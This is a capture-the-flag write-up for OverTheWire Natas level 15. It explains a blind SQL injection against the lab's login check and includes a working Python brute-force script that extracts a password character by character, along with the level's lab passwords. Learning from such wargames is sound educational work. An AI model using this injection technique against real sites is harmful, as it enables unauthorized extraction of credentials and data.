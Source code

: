 # Natas CTF Solutions  

## Natas Level 15  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Use **Blind SQL Injection** to extract the password from the database.  
- Retrieve the password for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas15.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas15`  
- **Password:** Use the password from Natas Level 14:  
```
SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
```  

![Home_Page](https://github.com/user-attachments/assets/b4a4af45-ef96-4333-b925-1785b4b4f095)

---

### **Step 3: Analyze the Webpage**  
- The page contains a **login form** that verifies if a user exists.  
- Viewing the **page source** reveals that the login logic is processed through an SQL query.  
- The logic is vulnerable to **Blind SQL Injection**.  

![Page_Source](https://github.com/user-attachments/assets/86ae6123-f390-4f95-ba22-4ac07590cbcc)

---

### **Step 4: Understand the Vulnerability**  
The SQL query works like this:  
```sql
SELECT * FROM users WHERE username="natas16" AND BINARY substring(password,1,N) = 'abc'
```
- The query checks the **substring** of the password character by character.  
- If the substring matches, the response returns **"This user exists."**  

---

### **Step 5: Automate with Python**  
Use the following Python script to automate the Blind SQL Injection attack:  

```python
import requests
import string
from requests.auth import HTTPBasicAuth

basicAuth = HTTPBasicAuth('natas15', 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx')
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

url = "http://natas15.natas.labs.overthewire.org/index.php?debug"
password = ""  # Start with an empty password
count = 1  
PASSWORD_LENGTH = 32  
VALID_CHARS = string.digits + string.ascii_letters

while count <= PASSWORD_LENGTH:
    for c in VALID_CHARS:
        payload = f'username=natas16" AND BINARY substring(password,1,{count}) = "{password + c}" -- '

        response = requests.post(url, data=payload, headers=headers, auth=basicAuth, verify=False)

        if 'This user exists.' in response.text:
            print(f"Found one more char: {password + c}")
            password += c
            count += 1
            break

print(f"Password found: {password}")
```

---

### **Step 6: Explanation**  
✅ The script:  
- Tries each character from `VALID_CHARS`.  
- If the response contains **"This user exists."**, the character is part of the correct password.  
- Continues until the full password is revealed.  

![Password](https://github.com/user-attachments/assets/4922c018-6f80-4533-b804-1844130d089e)

---

### **Step 7: Retrieve the Password**  
After running the script, the password for **Natas Level 16** is revealed:  

---

### **✅ Password for Natas Level 16**  
```
hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```  

---

## 💡 **Lessons Learned**  
✔️ **Blind SQL Injection**: When the output is not directly visible, you can use conditional responses to extract information.  
✔️ **Binary Keyword**: The `BINARY` keyword ensures case sensitivity during substring matching.  
✔️ **Automating Attacks**: Automating attacks with Python makes it easier to test multiple payloads efficiently.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Page Source with Login Logic | ![Page_Source](https://github.com/user-attachments/assets/86ae6123-f390-4f95-ba22-4ac07590cbcc) |  
| Step 7 – Found Password | ![Password](https://github.com/user-attachments/assets/4922c018-6f80-4533-b804-1844130d089e) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 16**:  
👉 [http://natas16.natas.labs.overthewire.org](http://natas16.natas.labs.overthewire.org)  

---
